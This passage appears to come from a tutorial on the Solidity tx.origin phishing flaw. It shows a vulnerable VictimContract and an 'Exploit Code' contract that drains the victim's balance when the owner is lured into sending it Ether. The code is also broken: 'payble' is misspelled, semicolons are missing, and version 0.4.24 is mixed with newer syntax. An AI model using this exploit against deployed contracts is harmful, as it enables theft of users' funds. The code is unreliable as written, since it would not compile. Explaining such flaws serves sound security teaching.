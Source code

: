 Inside Contract A, ```msg.sender``` is ```0xABC``` and ```tx.origin``` is 0xABC.
Inside Contract B, ```msg.sender``` is Contract A and ```tx.origin``` is still 0xABC*

## Code Example

```
pragma solidity 0.4.24;

contract VictimContract {

    address payble owner;
    constructor () payable{
        owner = payable(msg.sender);
    }

    function transferFunds(address _to, uint256 _amount) public {
       require(tx.origin == owner, "YOU ARE NOT THE OWNER");

    (bool success, ) = _to.call{value: _amount}("")
    require(success, "Failed to send Ether");
    }

}

```


## Exploit Code 
```
pragma solidity 0.4.24;
contract AttackVictim {

    address public owner;

    VictimContract public victimAttack;

    constructor(address _target){
        victimAttack = VictimContract(_target)
        owner = payble(msg.sender);

    }
    function attack() external payble{
        victimAttack.transferFunds(owner, address(victimAttack).balance);
    }

    receive() external payable{
        attack();
    }
}

```

